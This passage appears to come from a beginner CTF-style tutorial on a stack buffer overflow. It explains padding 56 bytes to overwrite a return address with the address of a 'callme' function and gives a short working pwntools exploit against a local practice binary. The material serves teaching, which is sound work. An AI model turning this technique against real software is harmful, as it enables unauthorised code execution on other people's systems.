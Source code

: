 The address of the function `callme` is 0x4011b6 which means that we can call the function `callme` if we somehow write the value `0x4011b6` at the address `0x7fffffffddd8`. In this case, sending 56 bytes of junk data followed by the address of `callme` will do the job. We can use `pwntools` to write the exploit.

```
#!/usr/bin/env python3

from pwn import *
p = process("./prog")
payload = b'a'*56 + p64(0x4011b6)
p.recvline()
p.sendline(payload)
p.interactive()

```
<img src='/images/pwn/pwn_03.png'>

Awesome, we successfully called the function `callme` by exploiting a buffer overflow.

References
[https://youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN](https://youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN)

<br>
[https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/)

<br>
[https://guyinatuxedo.github.io/](https://guyinatuxedo.github.io/)

<br>
[https://ctf101.org/](https://ctf101.org/)